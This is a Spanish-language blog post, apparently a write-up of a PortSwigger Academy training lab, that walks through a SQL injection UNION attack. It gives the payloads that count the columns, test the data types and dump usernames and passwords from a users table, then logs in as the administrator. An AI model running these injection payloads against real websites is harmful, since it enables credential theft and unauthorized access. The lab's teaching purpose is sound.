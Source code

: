+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 5"
date = "2021-11-04"
description = "Lab: SQL injection UNION attack, retrieving data from other tables"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Lab: SQL injection UNION attack, retrieving data from other tables

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer los datos de una tabla, las columnas son `username` y `password` de la tabla `users`. La idea es hacer uso del metodo union en sql para poder extraer esos datos aparte de los que ya trae el sistema. La consulta comun para recuperar estos datos seria:

```sql
select username, password from users;
```

## Reconocimiento

Ahora toca usar el metodo union para poder recuperar esos datos y tratar de inyectar ese comando en la consulta primaria para recuperar los usuarios y contrasenas de la tala de usuarios.

### Payloads

#### Recuperar columnas

Recuperamos las columnas inyectando la siguiente consulta:

```
https://xxxxxxxxxxxx.web-security-academy.net/filter?category=Pets' order by 4--
```

#### Recuperar tipo de datos

Ahora queremos saber que tipos de datos acceptan, inyectando algunas string en los dos vemos que no hay problema al hacerlo.

```sql
Pets' union select 'test','test'--
```

![Tipo de Datos aceptados](strings.png)

#### Recuperar datos de usuarios

Ahra ya podemos tomar los datos de la tabla de usuarios que se nos pide, para eso inyectaremos la siguiente consulta:

```sql
Pets' union select username,password from users--
```
![Usuarios y Contrasenas de la tabla users](extraido.png)

Ahora que ya nos hicimos con los datos del administrador, podemos iniciar sesion para que el sistema ya nos tome como resuelto el lab.

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)